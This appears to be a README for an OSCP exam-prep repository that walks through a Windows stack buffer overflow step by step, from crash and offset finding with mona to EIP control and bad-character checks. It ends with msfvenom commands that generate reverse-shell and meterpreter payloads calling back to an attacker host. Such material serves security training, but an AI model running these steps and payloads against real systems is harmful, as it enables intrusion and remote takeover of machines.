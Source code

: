 # BoF4OSCP

TODO: python3 setup.py

It's gonna edit all the python scripts with your target IP and PORT

Then follow the next steps...

Make sure mona is installed:
```
!mona config -set workingfolder c:\mona
```

## 1st step : create a crash

```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 3000

```
edit offset.py with the right pattern

```
python3 offset.py
```

check on mona what is the EIP address

take the EIP address (that looks mike EIP 386F...)

## 2nd step : pattern create

```
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 3000 -q 386F4337 (EIP ADDRESS)
[*] Exact match at offset 2003
```

## 3rd step : control EIP

edit eipOverwrite.py with the correct offset

```python3 eipOverwrite.py```

check on Immunity if EIP is well overwritten with 4B4B4B

## 4th step : finding badchars

edit findingBadchars.py with the offset

```
python3 findingBadchars.py
```

right click on ESP, follow in dump

find the badchars using the following command

```
!mona compare -f c:\mona\bytearray.bin -a 005FF910(ESP ADDRESS)
```

## 5th step : find the return address 

send buffer after editing python3 findingBadchars.py
```
!mona jmp -r esp -cpb (mybadchars) "\x00\x23 etc..."
```

Take one of the adresses

## 6th step : fire up the reverse shell

We can also create encoded payloads if some sort of protections are presents
```
msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT EXITFUNC=thread -f c -b '\x00\x0a\x0d' (mybadchars)
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -e shikata_ga_nai -i 3 -f c -b '\x00\x0a\x0d' (mybadchars)
msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT -e shikata_ga_nai -i 3 -f c -b '\x00\x0a\x0d' (mybadchars)
```
edit finalBuff

setup a listener

```
python3 finalBuffer.py
```
